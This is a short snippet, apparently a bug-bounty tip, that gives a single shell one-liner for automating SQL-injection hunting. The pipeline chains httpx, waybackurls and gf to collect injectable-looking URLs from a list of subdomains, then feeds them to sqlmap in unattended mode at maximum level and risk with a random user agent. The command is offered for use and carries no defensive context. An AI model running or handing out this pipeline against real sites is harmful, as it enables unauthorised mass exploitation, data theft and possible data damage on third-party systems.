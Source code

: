 automade your sqli findings!👇
```
cat subdomains.txt | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 5 --risk 3
```

